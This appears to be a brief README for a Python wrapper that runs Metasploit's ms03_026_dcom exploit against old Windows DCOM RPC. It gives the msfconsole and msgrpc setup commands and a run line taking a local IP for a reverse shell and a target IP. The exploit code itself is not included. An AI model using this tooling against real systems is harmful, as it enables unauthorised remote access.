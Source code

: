 # windows/dcerpc/ms03_026_dcom exploit script.

See the help running the following
```bash
python main.py
```

## Usage

First load msgrcp in metasploit.
```bash
$ msfconsole
msf> load msgrpc [Pass=yourpassword]
```

Then, run the script
```bash
python main.py [yourpassword] [LocalIP] [TargetIP]
```
> LocalIP is needed to open the reverse shell